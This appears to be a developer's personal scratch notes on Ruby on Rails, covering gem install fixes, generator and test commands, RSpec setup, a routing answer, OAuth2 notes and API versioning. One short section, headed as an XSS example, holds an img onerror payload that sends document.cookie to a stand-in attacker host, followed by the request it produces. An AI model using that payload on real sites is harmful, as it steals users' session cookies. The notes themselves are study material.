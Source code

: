 sudo gem install pg -v 0.17.1
checking for pg_config... no

##FIX
Install the postgresql-devel package, this will solve the issue of pg_config missing.

Ubuntu systems:
sudo apt-get install libpq-dev

RHEL systems:
yum install postgresql-devel

Mac:
brew install postgresql


##################################################################
rails new myapp --database=postgresql


# Begin logic
myproducts = Product.find(:all)
require 'pp'
pp myproducts



##Customer
id
first_name
last_name
user_name

##Category
id
name

##Product Categories
eCommerce Product Catalog allows to define unlimited amount of product categories. Product categories can be hierarchical or not.

To add or edit product categories go to Dashboard > Products > Product Categories. The edit screen allows to define:

Category name – this is the title of product category page
Slug – this is the URL of product category page
Parent – set parent of hierarchical category
Description – write the description for product category. The description shows up under the category name on product page.

##google: where to buy electronics

##SELECT * FROM comments AS c WHERE '1/4/5/7' LIKE c.path||'%';
##'1/4/5' '1/4' '1' will match
double bars are concatination:
select 'hello'||' '||'world' from dual;
yields=> 'hello world'



rails g model Product
rails g model Order
rails g migration add_sessions_table
rails g model Cart
rails g model LineItem
rails g model Customer

###############################################
>gem install rails -v=2.3.8
##gem sources --add http://gems.ruby-china.org/ --remove https://rubygems.org/
>gem sources -l
*** CURRENT SOURCES ***

http://gems.ruby-china.org/

> gem install rails -v=3.2.1
ERROR:  Error installing rails:
        invalid gem: package is corrupt, exception while verifying: undefined me
thod `size' for nil:NilClass (NoMethodError) in C:/Ruby22/lib/ruby/gems/2.2.0/cache/thread_safe-0.3.5.gem
=>delete the directory cache,errors will not appear when reexecute gem install

##rake db:migrate RAILS_ENV=test
##rails s -e test
>rake test:units
>rake test:functionals
>ruby -Itest test/unit/product_test.rb
>ruby -Itest test/unit/product_test.rb -n product_attributes_must_not_be_empty
>ruby -Itest test/unit/product_test.rb -n /attributes/

##rake spec
##rspec spec/models/product_spec.rb


>rails g scaffold Product title:string description:text image_url:string price:decimal
>rails g controller store index
>rails g session_migration
>rake db:migrate
>rails g scaffold cart
>rails g scaffold line_item product_id:integer cart_id:integer
>rails g migration add_quantity_to_line_item quantity:integer
>rails g migration combine_items_in_cart
>rails g scaffold order name:string address:text email:string pay_type:string
>rails g migration add_order_id_to_line_item order_id:integer
>rails g scaffold user name:string hashed_password:string salt:string
>rails g controller sessions new create destroy
>rails g controller admin index

##rake db:create RAILS_ENV=production
##rails s -e production 
##bundle exec rake assets:precompile RAILS_ENV=production
###############################################

##$ rails g task my_exercise load_data generate_delta_index
create lib/tasks/my_exercise.rake

##$ rake -T | grep my_exercise

运行RSpec的生成器
rails generate rspec:install  

生成器创建了几个新文件，分别是：
.rspec – 用于配置 rspec 命令行的配置文件，默认包含 – colour 来启用RSpec输出文字高亮。
spec – 该目录用于存放所有模型变量，控制器，视图，和项目中其它的specs。
spec/spec_helper.rb – 该文件会在每个spec执行时被调用。该文件设置了测试变量，并包含项目级别RSpec配置项，加载引用文件等等。

##Don't know how to build task=>
##add <require 'rake'> to Rakefile

rake spec

<%= link_to new_task_path, remote: true do %>
  <button class="btn btn-default">New</button>
<% end %>

<%= link_to task, remote: true, method: :delete,  data: { confirm: 'Are you sure?' } do %>
  <button>Delete</button>
<% end %>

url_for @book
###############################################
##In Rails 3, when a resource create action fails and calls render :new, why must the URL change to the resource's index url?

I just started with the Rails-Tutorial and had the same problem. The solution is just simple: If you want the same URL after submitting a form (with errors), just combine the new and create action in one action.

Here is the part of my code, which makes this possible (hope it helps someone^^)

**routes.rb** (Adding the post-route for new-action):
...
    resources :books
    post "books/new"
...

**Controller:**

...
def create
  @book = Book.new(book_params)

  if @book.save
    # save was successful
    print "Book saved!"

    else
    # If we have errors render the form again   
    render 'new'
  end
end

def new 
  if book_params
    # If data submitted already by the form we call the create method
    create
    return
  end

  @book = Book.new
  render 'new' # call it explicit
end

private

def book_params
  if params[:book].nil?  || params[:book].empty?
    return false
  else
    return params.require(:book).permit(:title, :isbn, :price)
  end
end

**new.html.erb:**

<%= form_for @book, :url => {:action => :new} do |f| %>
  <%= f.label :title %>
  <%= f.text_field :title %>
  <%= f.label :isbn %>
  <%= f.text_field :isbn %>
  <%= f.label :price %>
  <%= f.password_field :price %>
  <%= f.submit "Save book" %>
<% end %>
###############################################
http://site.com/callback#access_token=rBEGu1FQr54AzqE3Q&
refresh_token=rEbkldjfk45YD&expires_in=3600
var hash=document.location.hash;
var match=hash.match(/access_token=(\w+)/);

User
Client 
AccessToken 
RefreshToken 

Securing RESTful APIs using OAuth2 and OpenID Connect
openID + Oauth2
fetch the access token=>
Access Token Endpoint
client_id
client_secret
grant_type=client_credentials

$.ajax({
  url: resource_uri,
  beforeSend: function(xhr){
    xhr.setRequestHeader('Authorization','OAuth'+token);
    xhr.setRequestHeader('Accept','application/json');
  },
  success: function(response){
    //use response object
  }
});

###################################################
<img src=xonerror="document.body.appendChild(function(){
var a=document.createElement('img');
a.src='https://hackmeplz.com/yourCookies.png/?cookies='+document.cookie;
return a }())" >

GET
https://hackmeplz.com/yourCookies.png/?cookies=SessionID=123412341234

##XSS Attack
##Same-Origin-Policy

##JWT + Refresh Tokens=OAuth2 ?

Exercise::Application.routes.draw do
	scope module::v1,constraints:ApiConstraint.new(version: 1) do
		resources :articles,only: :index
	end

  scope module::v2,constraints:ApiConstraint.new(version: 2) do
		resources :articles,only: :index
	end
end

##Track Client Builds
What happens when you Need/Want to stop supporting a version?

curl http://localhost:3000/api/builds/457
[{"support_level": "active"}]

curl http://localhost:3000/api/builds/457
[{"support_level": "supported"}]

curl http://localhost:3000/api/builds/432
[{"support_level": "deprecated"}]

curl http://localhost:3000/api/builds/289
[{"support_level": "unsupported"}]


rails g controller Data --no-helper --no-assets --no-javascript











